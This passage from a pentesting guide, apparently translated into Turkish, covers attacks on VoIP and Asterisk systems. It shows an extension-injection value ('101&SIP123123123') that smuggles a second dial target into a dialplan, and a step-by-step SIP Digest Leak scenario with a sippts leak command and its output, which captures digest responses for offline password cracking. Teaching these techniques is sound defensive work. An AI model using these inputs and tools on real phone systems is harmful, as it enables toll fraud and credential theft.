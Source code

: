 ### Uzantı Enjeksiyonu

Aşağıdaki gibi bir uzantı kullanarak:
```scss
exten => _X.,1,Dial(SIP/${EXTEN})
```
Where **`${EXTEN}`** is the **extension** that will be called, when the **ext 101 is introduced** this is what would happen:  
**`${EXTEN}`** çağrılacak **extension**'dır, **ext 101 tanıtıldığında** bu gerçekleşecektir:
```scss
exten => 101,1,Dial(SIP/101)
```
Ancak, eğer **`${EXTEN}`** **sayıların dışında daha fazlasını** girmeye izin veriyorsa (eski Asterisk sürümlerinde olduğu gibi), bir saldırgan **`101&SIP123123123`** girerek 123123123 telefon numarasını arayabilir. Ve bu sonuç olacaktır:
```scss
exten => 101&SIP123123123,1,Dial(SIP/101&SIP123123123)
```
Bu nedenle, **`101`** ve **`123123123`** uzantısına bir çağrı gönderilecek ve yalnızca ilk çağrıyı alan bağlantı kurulacaktır... ancak bir saldırgan, mevcut olan herhangi bir eşleşmeyi atlayan ancak var olmayan bir **uzantı kullanırsa**, yalnızca istenen numaraya **bir çağrı enjekte edebilir**.

## SIPDigestLeak zafiyeti

SIP Digest Leak, hem donanım hem de yazılım IP Telefonları ile telefon adaptörlerini (VoIP'tan analog) içeren çok sayıda SIP Telefonunu etkileyen bir zafiyettir. Bu zafiyet, şifreden hesaplanan **Digest kimlik doğrulama yanıtının sızmasına** izin verir. **Çevrimdışı bir şifre saldırısı mümkün hale gelir** ve meydan okuma yanıtına dayanarak çoğu şifreyi kurtarabilir.

**[Zafiyet senaryosu buradan**](https://resources.enablesecurity.com/resources/sipdigestleak-tut.pdf):

1. Bir IP Telefon (kurban) herhangi bir portta (örneğin: 5060) dinliyor, telefon çağrılarını kabul ediyor
2. Saldırgan IP Telefone bir INVITE gönderiyor
3. Kurban telefon çalmaya başlıyor ve biri açıp kapatıyor (çünkü diğer uçta kimse telefonu yanıtlamıyor)
4. Telefon kapatıldığında, **kurban telefon saldırgana bir BYE gönderiyor**
5. **Saldırgan bir 407 yanıtı veriyor** ve **kimlik doğrulama talep ediyor** ve bir kimlik doğrulama meydan okuması yayımlıyor
6. **Kurban telefon, ikinci bir BYE'de kimlik doğrulama meydan okumasına bir yanıt sağlıyor**
7. **Saldırgan, yerel makinesinde (veya dağıtılmış ağ vb.) meydan okuma yanıtına karşı bir brute-force saldırısı gerçekleştirebilir** ve şifreyi tahmin edebilir

* **SIPPTS sızıntısı** [**sippts**](https://github.com/Pepelux/sippts)**'den:** SIPPTS sızıntısı, çok sayıda SIP Telefonunu etkileyen SIP Digest Leak zafiyetini istismar eder. Çıktı, SIPPTS dcrack veya SipCrack aracı kullanarak brute force yapmak için SipCrack formatında kaydedilebilir.
```bash
sippts leak -i 10.10.0.10

[!] Target: 10.10.0.10:5060/UDP
[!] Caller: 100
[!] Callee: 100

[=>] Request INVITE
[<=] Response 100 Trying
[<=] Response 180 Ringing
[<=] Response 200 OK
[=>] Request ACK
... waiting for BYE ...
[<=] Received BYE
[=>] Request 407 Proxy Authentication Required
[<=] Received BYE with digest
[=>] Request 200 Ok

```